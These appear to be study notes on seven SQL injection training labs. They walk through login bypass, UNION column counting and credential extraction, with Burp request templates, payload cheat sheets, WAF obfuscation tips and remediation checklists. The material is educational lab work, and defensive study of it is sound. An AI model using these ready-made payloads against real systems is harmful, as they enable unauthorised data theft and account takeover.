

# SQL Injection Lab-1 — Retrieving Hidden Data 

---

## 🔹 One-line summary
In-band SQL injection (WHERE-clause manipulation): inject into a filter parameter to neutralize AND released = 1 (or force the WHERE to true) and reveal unreleased/hidden products.

---

## 🔹 What is this issue?
SQL injection (SQLi) occurs when untrusted input is concatenated into SQL queries. By injecting SQL metacharacters or logic (e.g. ' OR 1=1 --) an attacker can change the query semantics and return rows the application intended to hide.

---

## 🔹 Why this matters (real-world risk)
- Exposes sensitive or unreleased data (products, user records).  
- Can escalate to data modification, account takeover, or RCE depending on DB features and privileges.  
- Often allows enumeration of database structure, union-based data extraction, or blind/time-based exfiltration.

---

## 🔹 High-value places to test
- Filter / search endpoints: /filter?category=..., /search?q=...  
- Item lookups: /product?id=..., /item?id=...  
- Sorting / pagination params: order, limit, page  
- Admin exports / downloads: /export?table=...  
- JSON APIs: values in POST/PUT JSON bodies that end up in SQL strings

---

## 🔹 Quick reconnaissance / how to spot it
1. Submit a single quote ' and look for DB errors or unusual responses.  
2. Try boolean tests: OR 1=1 vs OR 1=2 and compare content/length.  
3. Inspect JS and links for parameters that map to DB-driven pages.  
4. Watch for subtle clues: extra rows, changed pagination, different content-length, timing differences.

---

## 🔹 Lab walkthrough — compact (exact steps)
1. Open Burp Proxy and capture a normal category request (e.g., click *Techgifts*).  
2. Right-click captured request → *Send to Repeater*.  
3. Modify category parameter to neutralize the released filter, for example:

GET /filter?category=Techgifts'+OR+1=1-- HTTP/2
Host: <lab-host>
...

4. Send the modified request in Repeater and inspect the response — unreleased products should now be visible.
5. Save raw request/response as PoC and take a screenshot.
*Lab solved.*

---

## 🔹 Proof (evidence)

  
(Screenshot 1: modified request showing payload CorporateGifts' OR 1=1-- in the URL/params.)

  
(Screenshot 2: page showing unreleased products / PoC that the injection returned additional items.)

---

## 🔹 PoC / Repeater-ready example 

GET /filter?category=Techgifts'+OR+1=1-- HTTP/1.1
Host: <LAB_HOST>
User-Agent: Mozilla/5.0
Accept: /
Connection: close

---

*If the parameter is numeric, use:*  
id=1' OR 1=1-- (or id=1 OR 1=1 depending on context).

*URL-encode payloads when sending via browser* (e.g., '%20OR%201%3D1--).

---

## 🔹 Common payloads & quick cheats

- *Comment out rest:* '+-- or '+OR+1=1--  
- *Force true:* ' OR '1'='1'--  
- *Numeric id injection:* 1' OR 1=1--  
- *Time-based (MySQL):* ' OR SLEEP(5)--  
- *UNION discovery:* try ORDER BY then UNION SELECT NULL,version(),NULL-- (only if visible output)

*Always adapt comment style to the DB (--, #, /* ... */).*

---

## 🔹 Troubleshooting

- *No visible change:* try URL-encoding, use POST/JSON variants, or test different params.  
- *WAF interference:* attempt simple obfuscation (e.g., UN/**/ION) or minimal payloads.  
- *No output:* use blind techniques (time-based or OOB) *with permission*.

---

## 🔹 Fixes / remediation 

- Use *parameterized queries / prepared statements* (no string concatenation).  
- Enforce strict *whitelist validation* for known values (e.g., allowed categories).  
- Hide verbose DB errors from users; log them internally.  
- Use *least-privilege DB accounts* and separate read-only roles where possible.  
- Add monitoring / WAF as defense-in-depth (not a replacement).

---

## 🔹 Pentest checklist 

- Identify inputs reaching DB (GET/POST/JSON/headers/cookies).  
- Test ' for errors.  
- Try boolean tests: OR 1=1-- / OR 1=2--.  
- If data returned, attempt UNION/ORDER BY to enumerate columns.  
- If hidden, try time-based or OOB techniques.  
- Save PoC: raw request + response + screenshot.

---

# SQL Injection Lab-2 — Subverting Application Logic (Login Bypass) — Notes 

Lab type: in-band SQLi (authentication bypass via WHERE-clause manipulation / comment-out).

---

## 🔹 1. What is this issue?

A SQL injection in an authentication query lets an attacker manipulate the WHERE clause so the password check is never applied. By injecting a comment (e.g. --) or an always-true expression into the *username* field, the attacker can cause the query to return the target user row and the app treats them as authenticated — no password required.

---

## 🔹 2. Why this matters (real-world risk)

- Immediate account takeover (often admin).  
- Full application compromise if the account has high privileges.  
- Simple and frequently present in legacy code that concatenates inputs into SQL.  
- Easy to chain with further attacks (data exfiltration, privilege escalation, persistence).

Impact example: login as administrator → delete users / change configs / exfiltrate data.

---

## 🔹 3. High-value places to test (quick)

- Login endpoints: POST /login, /auth, /session.  
- Any endpoint that constructs SQL from user-controlled fields w/o parameterization.  
- API endpoints accepting username, userId, email in JSON or form data.

---

## 🔹 4. How to find it quickly

- Submit a single quote ' in the username and watch for errors or different behaviour.  
- Try common auth-bypass payloads in the username field:

  - administrator'--  
  - administrator' OR '1'='1  
  - admin'/*  (DB/comment dependent)

- Observe redirects, status codes, response bodies — successful injection often returns admin pages or different Location headers.

---

## 🔹 5. Lab walkthrough — compact (exact steps)

1. *Capture a baseline login request*  
   - Proxy *ON*; perform a normal login to capture POST /login (username/password).  
   - In Burp → *Proxy → HTTP history* find the POST /login and *Send to Repeater*.

2. *Send to Repeater and prepare PoC*  
   - In Repeater edit the request body (or form fields).  
   - Replace username= value with the SQL comment payload, for example:  
     
     username=administrator'--&password=anything
     

3. *Leave password blank or unchanged*  
   - You may set password= to an arbitrary value or leave it empty — the injection should remove the password check.

4. *Send the modified request*  
   - Click *Send* in Repeater and inspect raw response headers. Look for a redirect such as:
     
     HTTP/1.1 302 Found
     Location: /my-account?id=administrator
     

5. *Follow the redirect / verify in browser*  
   - Replay cookies / session in browser or follow the redirect in Repeater. If you see admin UI / account page you are authenticated as the target user. Lab solved.
     
---

## 🧾 Proof / Evidence

1. *Screenshot — PoC Repeater request/response (injected login POST)*  
   ../images/sqli-login-bypass-post.png  
   Description: Repeater request showing the modified POST /login (payload username=administrator'--) and the response headers (302 Location: /my-account?id=administrator).  
   

---

## 🔹 6. Repeater / PoC templates 

*Form-encoded login bypass (example)*

POST /login HTTP/1.1 Host: <LAB_HOST> Content-Type: application/x-www-form-urlencoded Cookie: session=<YOUR_SESSION>

username=administrator'--&password=anything

*GET-style (if login via querystring)*

GET /login?username=administrator'--&password=anything HTTP/1.1 Host: <LAB_HOST>

(Adjust method/headers to match the app. URL-encode when pasting into browser.)

---

## 🔹 7. Common payloads 

- administrator'--  (comment-out rest)  
- administrator' OR '1'='1'--  
- ' OR '1'='1'--  (may log in as first user returned)  
- admin'/*  (DB-specific comment forms)  
- Numeric ids: 1 OR 1=1--

Always adapt to DB comment style and context (string vs numeric).

---

## 🔹 8. Troubleshooting

- No redirect/visible change → try alternate comment styles (--, #, /* */) and URL-encode special chars.  
- WAF blocks simple payloads → try minor obfuscation (e.g., OR/**/1=1).  
- If query expects numeric id → remove quotes and use numeric payloads.  
- Use Repeater to inspect raw responses (redirects, cookies) rather than relying only on browser UI.

---

## 🔹 9. Fixes / remediation (what to recommend)

- Use parameterized queries / prepared statements for all DB access (no string concatenation).  
- Use ORM safe-query mechanisms; never interpolate untrusted input.  
- Return generic login error messages — avoid revealing whether username exists.  
- Apply WAF/input validation as defense-in-depth (not a substitute for parameterized queries).  
- Review & sanitize legacy auth code paths; add automated tests to detect auth bypass via injection.

---

## 🔹 10. Pentest checklist 

- Affected endpoint & method: POST /login.  
- Vulnerable parameter: username.  
- Exact PoC request & raw response showing redirect to /my-account?id=administrator.  
- Evidence: screenshot of admin page after bypass.  
- Impact: authentication bypass → admin takeover.  
- Remediation summary: parameterized queries + hardening.

---

# SQL Injection Lab-3 — Retrieving Hidden Data 

---

## 🔹 One-line summary
SQL injection lets attacker-controlled input alter a query (WHERE/UNION) so it returns rows it normally wouldn’t — e.g., unreleased products, user data, or internal information.

---

## 🔹 What is this topic? (short)
SQL injection (SQLi) occurs when untrusted input is concatenated into SQL. In the “retrieving hidden data” lab we neutralize filters (e.g., AND released = 1) or use UNION SELECT to extract hidden rows from the database.

---

## 🔹 Why this matters (real-world risk)
- *Data disclosure:* sensitive rows (users, configs, secrets) can be read.  
- *Business impact:* leak of unreleased products or internal data.  
- *Pivoting:* DB contents often reveal creds, hostnames or queries to internal services → further compromise.

---

## 🔹 High-value injection targets
- Filter/search params: /filter?category=..., /search?q=...  
- ID/item params: /product?id=..., /item?id=...  
- Sort/pagination: order, limit, page  
- JSON body fields in APIs: {"category":"..."}  
- Export endpoints: /export?table=...

---

## 🔹 Quick concept checklist
- Test a single-quote ' for errors.  
- Boolean tests: OR 1=1 vs OR 1=2.  
- Use comments to truncate remainder (--, #, /* */).  
- Count columns with UNION SELECT NULL,....  
- Use UNION SELECT 'MKR1','MKR2',... to find a reflected column.  
- If no direct output: use blind (time) or OOB (DNS/HTTP) techniques.

---

## 🔹 Lab walkthrough — exact steps 

1. *Capture baseline request*  
   - Proxy *ON* → click the category/filter in the app. Copy the captured GET /filter?category=... to *Repeater*.

2. *Sanity test*  
   - Edit parameter: add a single-quote (e.g. category=Gifts') and *Send*. Look for DB errors or page changes.

3. *Count columns (UNION-NULL method)*  
   - Try:
     
     GET /filter?category=Gifts' UNION SELECT NULL-- 
     
     If an error occurs, increase NULL count:
     
     GET /filter?category=Gifts' UNION SELECT NULL,NULL-- 
     GET /filter?category=Gifts' UNION SELECT NULL,NULL,NULL-- 
     
     Continue until the server returns an altered/normal response — that NULL count = number of columns.

4. *Find a reflected column*  
   - With the correct column count inject markers:
     
     GET /filter?category=Gifts' UNION SELECT 'MKR1','MKR2','MKR3'-- 
     
     (adjust number of MKR values to match column count). *Send* and inspect the raw response / page source for MKR1/MKR2/MKR3 — the one you see is the reflected column.

5. *Extract data using the reflected column*  
   - Replace the marker in the reflected column with useful functions:
     
     GET /filter?category=Gifts' UNION SELECT NULL,version(),NULL--        (if column2 reflected)
     GET /filter?category=Gifts' UNION SELECT NULL,group_concat(table_name SEPARATOR 0x3a),NULL FROM information_schema.tables WHERE table_schema=database()--
     GET /filter?category=Gifts' UNION SELECT NULL,group_concat(concat(username,0x3a,password) SEPARATOR 0x0a),NULL FROM users--
     
     Adjust queries to the DB (MySQL examples above). *Send* and capture the response showing extracted rows.

6. *Save PoC*  
   - Save the exact raw request(s) and response(s). Take a screenshot of Repeater showing the payload and the page/body with extracted data.

---

## 🧾 Proof / Evidence

1. *Screenshot — PoC request/response (columns matched)*  
  
   Description: Repeater request showing the injected UNION SELECT NULL,... payload and the response containing unreleased/hidden data (used to confirm correct column count and the reflected column).

---

## 🔹 PoC / Repeater-ready example 

http
GET /filter?category=Gifts' UNION SELECT NULL,NULL,NULL-- HTTP/1.1
Host: <LAB_HOST>
User-Agent: Mozilla/5.0
Accept: /
Connection: close

When columns = 3 and column 2 is reflected:

GET /filter?category=Gifts' UNION SELECT NULL,group_concat(concat(username,0x3a,password) SEPARATOR 0x0a),NULL FROM users-- HTTP/1.1
Host: <LAB_HOST>
...

> URL-encode payloads when pasting into a browser (e.g. ' → %27, spaces → %20, -- → %2D%2D) if needed

---

## 🔹 Common payloads & quick cheats

- *Comment out rest:*  
  `' + --` or `' + OR + 1=1 --`

- *Force true:*  
  `' OR '1'='1'--`

- *Numeric id injection:*  
  `1' OR 1=1--`

- *Time-based (MySQL):*  
  `' OR SLEEP(5)--`

- *Count columns:*  
  `UNION SELECT NULL, NULL, ... --`

- *Marker test (find reflected column):*  
  `UNION SELECT 'MKR1','MKR2',... --`

> *Note:* Always adapt comment style and payload syntax to the target DB and context (--, #, /* ... */).

---

## 🔹 Troubleshooting

- *500 / syntax errors when NULL count is wrong* → increase/decrease NULL count until the server stops returning a syntax error.  
- *No visible marker* → check raw HTML, element attributes, inline scripts, and comments (the marker may be reflected in non-visible locations).  
- *Type mismatch errors* → use NULL for non-reflected columns or CAST(... AS CHAR) for type conversion.  
- *WAF blocking UNION* → try simple obfuscation (e.g., UN/**/ION) or use ORDER BY column-counting to discover number of columns.  
- *Large results truncated* → extract in smaller chunks using LIMIT/OFFSET or SUBSTRING().

---

## 🔹 Fixes / remediation (what to report)

- Use *parameterized queries / prepared statements* (never concatenate user input into SQL).  
- Enforce strict *whitelists* for expected values (categories, IDs).  
- Remove verbose DB errors from public responses; log them internally.  
- Apply *least-privilege* principles to DB accounts (no FILE/xp_cmdshell for web app user).  
- Output-encode DB-derived content and monitor for suspicious query patterns.

---

## 🔹 Pentest checklist 

1. Capture request → baseline.  
2. Test a single-quote ' → see if errors appear.  
3. Count columns using UNION SELECT NULL,....  
4. Find reflected column with UNION SELECT 'MKR1',....  
5. Extract data via group_concat / concat (or equivalent).  
6. Save raw PoC request + response and take screenshots.  
7. Recommend parameterized queries and whitelisting in the report.

---

# SQL Injection Lab-4 — Finding Columns Compatible with String Data — Notes 

---

## 🔹 One-line summary
Find the number of columns returned by a vulnerable query (UNION NULL counting) and determine which column(s) accept string data — once you know a string-compatible column you can inject textual payloads (version(), group_concat(), concat(...)) to extract schema and rows.

---

## 🔹 1. What is this topic? (short)
Determine which columns returned by a vulnerable query can hold string data. Knowing the column count *and* which column(s) accept strings is the stepping-stone from "I can inject" → "I can exfiltrate data" via UNION SELECT attacks.

---

## 🔹 2. Why this matters (real-world risk)
- String-compatible columns let you return arbitrary textual payloads (function outputs, concatenated columns, credentials).  
- Once one column reflects attacker-controlled text, you can extract DB metadata, table/column names, and rows.  
- Fast pivot to credential dumps, business-data leaks, and further exploitation (e.g., internal hostnames → SSRF).

---

## 🔹 3. High-value targets / parameters to test
- Category / filter / search parameters (e.g. /filter?category=..., /search?q=...)  
- Item identifiers (/item?id=..., /product?id=...)  
- Sort / order / pagination params (order, page, limit, offset)  
- JSON API fields (POST bodies) that end up in SELECT outputs

---

## 🔹 4. Quick concept checklist
- *Count columns:* UNION SELECT NULL,... until the response no longer errors.  
- *Test string-compatibility:* replace one NULL with a short unique token (e.g. XYZ123) per column.  
- *Conversion error = not string-compatible.* Normal response + token visible = column usable.  
- If blocked, try casting, CHAR()/chr() building, or obfuscation.

---

## 🔹 5. Lab walkthrough — exact steps 

1. *Capture baseline request*  
   - Proxy *ON* → click the category/filter in the app. Right-click the captured request → *Send to Repeater*.

2. *Determine column count (N)*  
   - In Repeater, append payloads (increase NULL count) until the DB error disappears. Example sequence:
     
     ' UNION SELECT NULL-- 
     ' UNION SELECT NULL,NULL-- 
     ' UNION SELECT NULL,NULL,NULL-- 
     
   - The first NULL count that returns a normal page = *N* columns.

3. *Get the lab token*  
   - Note the string the lab asks you to make appear (or pick a short unique token for testing), e.g. XYZ123.

4. *Test each column for string-compatibility*  
   - Replace one NULL at a time with the token. If N = 3 and token = XYZ123, try:
     
     ' UNION SELECT 'XYZ123',NULL,NULL--      (col1)
     ' UNION SELECT NULL,'XYZ123',NULL--      (col2)
     ' UNION SELECT NULL,NULL,'XYZ123'--      (col3)
     
   - Send each request and inspect the *raw HTTP response* (page source). Look for XYZ123.

5. *Handle conversion errors*  
   - If a request produces a DB conversion error (500 or explicit DB error), that column is *not* string-compatible. Skip it.

6. *When the token appears*  
   - If the token is visible and the response is normal → column is string-compatible → save the request as PoC. Lab solved.

7. *Next steps (after discovery)*  
   - Use the discovered column to inject version(), group_concat(...) or table/column enumeration payloads and extract data.

---

## 🧾 Proof / Evidence

1. *Screenshot 1 — Column count (NULLs)*  
  
   Description: Repeater request showing the UNION SELECT NULL,... sequence used to determine the correct column count *N* (response shows no DB error).

2. *Screenshot 2 — Token matched in column*  
    
   Description: Repeater request/response showing the test UNION SELECT where the token (XYZ123) appears in the rendered response (proof that the column accepts string data).

---

## 🔹 6. Exact PoC template 
Replace <HOST>, Techgifts, XYZ123, and adjust NULL count to N:

http
GET /filter?category=Techgifts' UNION SELECT NULL,'XYZ123',NULL-- HTTP/1.1
Host: <HOST>
User-Agent: Mozilla/5.0
Accept: /
Connection: close

## 🔹 7. Troubleshooting — common issues & fixes

- *No visible token but length changed:* view raw HTML source; token may be in attributes, script blocks, or comments.
- *Conversion error (varchar ↔ int):* that column is numeric-only — try CAST(... AS CHAR) or skip that column.
- *WAF / filters:* obfuscate UNION (UN/**/ION) or build the token via CHAR() / concat(char(...)).
- *Token escaped/encoded:* check for HTML entities, hex, or URL-encoding — decode before matching.
- *UNION blocked:* use ORDER BY to count columns (classic technique) or fall back to blind/OOB extraction.

---

## 🔹 8. Real-world attack scenarios (concise)

- Use discovered string column to UNION SELECT version(), database(), user() to fingerprint DB.
- UNION SELECT group_concat(concat(username,':',password) SEPARATOR 0x0a) ... FROM users to dump credentials (watch length limits).
- If results truncate, paginate with LIMIT/OFFSET or extract with substring() in chunks.

---

## 🔹 9. Reporting checklist (what to include)

- Vulnerable endpoint & parameter.  
- Column count *N* and which column(s) accept strings.  
- Exact PoC request showing token in response.  
- Screenshot / raw response snippet containing token.  
- Impact summary and remediation suggestions.

---

## 🔹 10. Quick remediation checklist

- Use *parameterized queries / prepared statements*.  
- Whitelist expected values (e.g., allowed categories).  
- Remove verbose DB errors from public responses.  
- Use least-privilege DB accounts; monitor unusual query patterns.  
- Rate-limit & alert repeated UNION / ORDER BY probes.

---

## 🔹 Out-of-the-box / advanced strategies (short)

- Build strings via CHAR() / chr() if literal strings fail.  
- Obfuscate UNION or use ORDER BY counting as a fallback.  
- Chunk large fields with substring() + LIMIT/OFFSET.  
- Use information_schema to enumerate tables/columns quickly.

---

# SQL Injection lab-5 — UNION Attacks — Notes 

---

## 🔹 One-line summary
A UNION SQLi appends attacker-controlled SELECT rows to the original query result. When the app reflects results, UNION lets you read database rows (users, creds, API keys) directly in the page response.

---

## 🔹 What is this topic? (short)
A UNION SQL injection allows an attacker to combine an attacker-crafted SELECT with the application’s original query and so return arbitrary rows (from users, information_schema, etc.) in the same page output.

---

## 🔹 Why this matters (real-world risk)
- *Immediate data disclosure:* user tables, password hashes, API keys.  
- *Fast pivot:* offline cracking of hashes → account takeover → lateral movement.  
- UNION is usually the fastest path from “I can inject” → “I can exfiltrate”.

---

## 🔹 High-value endpoints / parameters to test
- Category / filter / search endpoints: /filter?category=..., /search?q=...  
- Item/detail pages: /product?id=..., /item?id=...  
- Sort / pagination: order, page, limit  
- JSON API fields: POST /api/search { "q":"..." }  
- Any param that ends up in a SELECT whose results are rendered.

---

## 🔹 Quick concept checklist
1. Determine number of columns *N* (UNION SELECT NULL,...).  
2. Find which column(s) accept string data by injecting a short token into each column.  
3. Use UNION SELECT username, password FROM users (or group_concat() if needed) to exfiltrate.  
4. If UNION is blocked → obfuscate, cast, or switch to blind/OOB techniques.

---

## 🔹 Lab walkthrough — exact methodology 

1. *Capture the request*  
   - Proxy *ON* → perform the action that shows results (click category/filter).  
   - Right-click the captured request → *Send to Repeater*.

2. *Find number of columns (N)*  
   - Send these (increment `NULL`s until the page returns normally):  
     
     ' UNION SELECT NULL--  
     ' UNION SELECT NULL,NULL--  
     ' UNION SELECT NULL,NULL,NULL--  
       
   - The NULL count that returns a normal page (no SQL error) = *N*.

3. *Find string-compatible column(s)*  
   - For N columns, test each column with a unique token (replace one NULL at a time):  
     
     ' UNION SELECT 'TOK',NULL,NULL--     (if N=3, test col1)
     ' UNION SELECT NULL,'TOK',NULL--     (test col2)
     ' UNION SELECT NULL,NULL,'TOK'--     (test col3)
       
   - Inspect *raw* response for TOK. The column that displays it is string-compatible.

4. *Exfiltrate the users table*  
   - If two string columns exist:
     
     ' UNION SELECT username, password FROM users--
       
   - If only one string column: concatenate rows into one field (MySQL example):
     
     ' UNION SELECT NULL,group_concat(concat(username,':',password) SEPARATOR 0x0a) FROM users--
       
   - Adjust NULL positions so the reflected column holds the extracted data.

5. *Read results & act*  
   - Inspect raw response for username:password pairs. Use discovered admin creds to log in (only in-scope labs).

6. *Proof & report*  
   - Save the raw request + raw response showing extracted data as PoC (screenshot + raw text).

---

## 🧾 Proof / Evidence

1. *Screenshot 1 — Column count (NULLs)*  
   
   Description: Repeater request showing the UNION SELECT NULL,... probes used to determine the correct column count *N* (response shows no DB error).

2. *Screenshot 2 — String column token match*  
     
   Description: Repeater request/response showing the injected test token (TOK) appearing in the page output — confirms the reflected column supports string data.

3. *Screenshot 3 — Extracted credentials (administrator)*  
     
   Description: Repeater response screenshot showing the extracted administrator credentials (displayed in the page output via UNION injection).

> Place the screenshots in the images/ folder and keep raw requests/responses alongside them for PoC.

---

## 🔹 PoC templates 

*Basic (two string cols)*
GET /filter?category=Techgifts' UNION SELECT username, password FROM users-- HTTP/1.1 Host: example.lab [other headers copied from original request]

*Concat into one column (MySQL; single reflected string column)*
GET /filter?category=Techgifts' UNION SELECT NULL,group_concat(concat(username,':',password) SEPARATOR 0x0a) FROM users-- HTTP/1.1 Host: example.lab ...

---

## 🔹 Troubleshooting & common fixes
- *No visible token but response ok:* view raw body / page source — token may be in attributes, scripts, comments.  
- *Conversion errors (500):* that column is numeric-only — try other columns or CAST(... AS CHAR).  
- *UNION blocked by WAF:* obfuscate (UN/**/ION), try ORDER BY counting, or use blind/OOB.  
- *Results truncated:* use LIMIT/OFFSET or chunk with substring() or smaller group_concat pieces.  
- *DB-specific syntax:* fingerprint DB and adapt (comment style, aggregate functions).

---

## 🔹 Reporting checklist (what to include)
- Affected endpoint & parameter.  
- Column count *N* and which column(s) accept strings.  
- Exact PoC request(s) + raw response showing the data.  
- Impact (accounts, sensitive data).  
- Short reproduction steps (3–5 lines).  
- Fixes: parameterized queries, whitelists, least privilege, hide DB errors.

---

## 🔹 Quick remediation checklist
- Use parameterized queries / prepared statements.  
- Avoid dynamic SQL built by concatenation.  
- Whitelist allowed values.  
- Limit DB account privileges.  
- Hide DB errors; log suspicious SQL patterns.

---

## 🔹 Pocket memory cue
*Count NULL`s → token per column → token visible = dump column → `UNION dump users (or group_concat).*

---

## 🔹 Out-of-the-box / advanced 
- *Fingerprint DB:* UNION SELECT version() (MySQL/Postgres/MSSQL variations).  
- *Metadata:* query information_schema.tables / information_schema.columns.  
- *Chunking:* LIMIT/OFFSET, substring() to extract long fields in pieces.  
- *When UNION blocked:* use error-based, blind/time-based, or OOB (DNS/HTTP) techniques.  
- *Obfuscation:* UN/**/ION, CHAR()-built strings to bypass naive WAFs.  
- *Pivot:* extract DB creds → internal APIs / cloud metadata / RCE (if privileges allow).  
- *Tools:* sqlmap (use with care and throttle).

---

# SQLi Lab-6 — Retrieve multiple values in a single column 

---

🔹 *One-line summary*

When an injection point only reflects one column, concatenate multiple fields (e.g., username~password) into that single reflected column using a UNION injection to exfiltrate multiple values at once.

---

🔹 *1️⃣ Why this matters (impact)*

- Enables credential theft even if only one column is displayed.  
- Leads to fast account takeover or privilege escalation.  
- Useful for real-world web apps where complete rows aren’t reflected.

---

🔹 *2️⃣ High-value endpoints to test*

1. /filter?category=..., /products?category=... — category / listing pages  
2. /search?q=... — search results  
3. Admin or reporting panels displaying DB data  
4. CSV / export or legacy API endpoints  
5. Any parameter that outputs DB-driven content into HTML or JSON

---

🔹 *3️⃣ Quick checklist (what to try)*

1. Inject ' — look for SQL errors.  
2. Find column count → UNION SELECT NULL, ... until valid.  
3. Find string-reflecting column → inject token 'TOK' in each column.  
4. Use concatenation in that column → combine username & password.  
5. For multiple rows → use GROUP_CONCAT() or string_agg().

---

🔹 *4️⃣ Exact step-by-step methodology (PortSwigger lab-style)*

*A — Capture & prepare*

1. Turn *Burp Proxy ON* and capture the request of the results page (category/search).  
2. Send it to *Repeater* for testing.

---

*B — Find number of columns (N)*

Try incrementing NULLs:

' UNION SELECT NULL-- ' UNION SELECT NULL,NULL-- ' UNION SELECT NULL,NULL,NULL--

✅ The NULL count that returns a normal (non-error) page is your correct N.

---

*C — Find which column reflects string data*

Test each column by injecting a token in one column at a time:

' UNION SELECT 'TOK',NULL,NULL-- ' UNION SELECT NULL,'TOK',NULL-- ' UNION SELECT NULL,NULL,'TOK'--

Then check the *response HTML*.  
The column that visibly reflects TOK supports string output.

---

*D — Concatenate username & password (PortSwigger example)*

If reflected column is 2 of 2:

' UNION SELECT NULL, username || '~' || password FROM users--

Then inspect raw HTML for:

administrator~s3cure

➡ Copy credentials and test login.

---

*E — If only one column is reflected (MySQL example)*

' UNION SELECT CONCAT(username,'~',password) FROM users--

---

*F — If many rows are returned (aggregate them)*

MySQL aggregation example:

' UNION SELECT GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR 0x0a) FROM users--

---

# 🧾 Proof / Evidence

1️⃣ *Screenshot — NULL count discovery*  
  
🖼 Description: Shows Repeater request where UNION SELECT NULL,... payload returns a valid page — confirms correct column count (N).

---

2️⃣ *Screenshot — Reflected string column detection*  
  
🖼 Description: Displays visible 'TOK' token in the response after testing each column — identifies which column accepts string data.

---

3️⃣ *Screenshot — Final concatenation result (username~password)*  
 
🖼 Description: Repeater response showing administrator~s3cure after injecting:  
' UNION SELECT CONCAT(username,'~',password) FROM users--  
✅ Confirms successful concatenation-based SQLi and credential extraction.

---

🔹 *5️⃣ PortSwigger concat format*

Use this standard syntax:

username || '~' || password

✅ Works for *PostgreSQL / Oracle* style DBs.

---

🔹 *6️⃣ Concatenation & aggregation — DB syntax cheat sheet*

| DB | Concatenation | Aggregation |
|----|----------------|-------------|
| MySQL / MariaDB | CONCAT(a,'~',b) | GROUP_CONCAT(CONCAT(a,':',b)) |
| PostgreSQL | a || '~' || b | string_agg(a || ':' || b, E'\\n') |
| Oracle | a || '~' || b (may need FROM DUAL) | — |
| MSSQL | a + '~' + b or CONCAT(a,'~',b) | — |
| SQLite | a || '~' || b | — |

---

🔹 *7️⃣ Copy-paste payload templates*

> Replace <HOST> and <CATEGORY>; adjust NULL positions for correct reflected column.

*PortSwigger-style (column 2 of 2):*

GET /filter?category=<CATEGORY>' UNION SELECT NULL, username || '~' || password FROM users-- HTTP/1.1 Host: <HOST>

*MySQL (column 2 of 2):*

GET /filter?category=<CATEGORY>' UNION SELECT NULL, CONCAT(username,'~',password) FROM users-- HTTP/1.1 Host: <HOST>

*Single-column reflected (MySQL):*

GET /filter?category=<CATEGORY>' UNION SELECT CONCAT(username,'~',password)-- HTTP/1.1 Host: <HOST>

*Aggregate multiple rows (MySQL):*

' UNION SELECT NULL, GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR 0x0a) FROM users--

---

🔹 *8️⃣ Troubleshooting (common fixes)*

- ❌ 500 error → wrong NULL count or mismatched column types.  
- ❌ No visible token → view raw HTML, attributes, or JS comments.  
- ❌ Output truncated → use GROUP_CONCAT() or chunked extraction (SUBSTRING, LIMIT, OFFSET).  
- ❌ WAF blocks UNION → obfuscate (UN/**/ION, UNI%0AON) or build strings via CHAR()/CHR().

---

🔹 *9️⃣ Fixes / remediation (for report)*

✅ Use parameterized queries / prepared statements.  
✅ Remove DB error messages from client responses.  
✅ Whitelist inputs (only valid categories, IDs, etc.).  
✅ Limit DB privileges (no FILE / EXEC rights).  
✅ Monitor & alert for UNION / ORDER BY / SLEEP probes.

---

🔹 *🔟 Out-of-the-box / advanced notes*

- Fingerprint DB:  
  ' UNION SELECT @@version-- or version()  
- Use information_schema to discover tables & columns.  
- Split large dumps with LIMIT / OFFSET.  
- Post-dump pivot → look for API keys, admin creds, or internal hosts.  
- Use *sqlmap* only after manual validation.

---

🔹 *Extended concatenation cheat-sheet (extra DBs)*

| DB | Example |
|----|----------|
| DB2 / Informix | username || '~' || password |
| Sybase | username + '~' + password |
| Teradata | username || '~' || password or CONCAT() |
| Presto / Trino | CONCAT(username, '~', password) or || |
| Hive | CONCAT(username, '~', password) |

🧩 Tip: Always verify the concat operator first using small tests like || 'X' ||.

---

🔹 *Pocket cue*

Count NULLs → find reflected column → concat(username~password) → get admin → login.

---

# 🔐 SQL Injection Lab-7 — UNION / Retrieve Data — Notes 

---

## 🔹 1. What is a SQLi UNION attack? (short)

A *UNION SQL Injection* appends results of an attacker-controlled SELECT query to the legitimate query output.  
If the web app *renders DB data in responses*, the attacker can make it display results from other tables (like users, creds, etc.) in the normal page.

✅ Works only if:

- The injected UNION SELECT has *the same number of columns* as the original query.
- The columns are *data type-compatible* (text columns for text, etc.).

---

## 🔹 2. Why this matters (real-world risk)

- 📤 *Data exfiltration:* usernames, passwords, API keys, internal records.  
- 🧩 *DB fingerprinting:* identify DB version to tailor payloads.  
- 💀 *Escalation path:* dump credentials → log in → pivot to full takeover.

---

## 🔹 3. High-value parameters to test

- /filter?category=, /search?q=, /sort=, /id=, /page=
- JSON keys in POST bodies: { "query": "..." }
- Export/CSV endpoints
- Any feature showing lists, tables, or categories on the frontend

---

## 🔹 4. Quick recon checklist

1️⃣ Check if input is quoted → send value' and watch for error/response changes.  
2️⃣ Try comment styles: -- ` (note space), `#, and /*...*/.  
3️⃣ Use UNION SELECT NULL,... to find *column count (N)*.  
4️⃣ Inject 'MAGIC' strings into each column to find *string-compatible* columns.  
5️⃣ Once confirmed, inject version() / @@version to confirm DB type and solve the lab.

---

